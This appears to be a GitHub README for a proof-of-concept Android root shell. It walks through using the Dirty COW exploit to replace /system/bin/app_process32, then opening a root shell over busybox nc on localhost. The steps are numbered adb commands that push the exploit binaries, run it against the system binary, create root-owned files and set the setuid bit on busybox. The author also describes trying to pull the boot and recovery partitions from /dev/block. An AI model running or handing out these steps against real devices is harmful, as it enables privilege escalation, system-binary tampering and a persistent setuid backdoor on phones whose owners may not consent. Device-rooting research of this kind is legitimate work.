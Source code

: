 # Test root shell for any android phone with app-process32
Test root shell for any android phone with app-process32


This is nothing more than a test. It is a limited root shell, the test is to see how much can be done in the current contex.

to use the test
download or clone and (read the contents first is allways safer) run the one-click-root.bat
It will push 4 files to /data/local/tmp on your phone, it will use the "dirtycow" exploit to 
replace (temporarily)  the app_precess32 on /system/bin
then that will "fork" a shell as root.
next command will inject the contents of the cp_comand.txt to that shell.
proof of concept you should see you can create files as and owned by root now.

The road block from here is the contex of the root. I try to cp from /dev/block to pull recovery and boot, but get permission denied
on my samsung. On my other phone it works 

I put this in the public for hope of colaberation and further the effort.


If building from source instead of using prebuilt.

*** copy the "buildables" ***folder to the "android_external" folder in you android build enviroment.
name the folder something rememberable like "dirty-cow"

cd into your enviroment work folder

then after lunch for your device

make -j* dirtycow recowvery-app_process32

should have built binaries in the output folder, that you built.


USEAGE outside of using the scripts:

1: adb push dirtycow /data/local/tmp/dirtycow

2: adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32

***** used busybox that was prebilt and did not include busybox.c , you can find git that has busybox.c and build if desired*******
3: adb push busybox /data/local/tmp/busybox

4: adb shell chmod 0777 /data/local/tmp/*

5: adb shell /data/local/tmp/dirtycow /system/bin/app_process32 /data/local/tmp/recowvery-app_process32
*** after dirty cow finishes wait about 1 minute, phone is expected to soft reboot and buttons and screen become non responsive, while adb remain connected.

6: adb shell

7: /data/local/tmp/busybox nc localhost 11112
*** this should open a promtless shell with root access, you see cpio and no cuser. You can type and see your entry

8: mkdir /data/local/test     

9: /system/bin/chmod 0777 /data/local/test

10: ls -l /data/local

11: cp /data/local/tmp/busybox /data/local/test/busybox

12: /system/bin/chmod 0777 /data/local/test/busybox

13: ls -l /data/local/test                                  

14: /system/bin/chmod +s /data/local/test/busybox           

15: ls -l /data/local/test									 
shows can chmod files that are owned by root                                 

16: whoami 													
shows the id of shell (root)

17: pwd 													
shows the current dir

18: exit
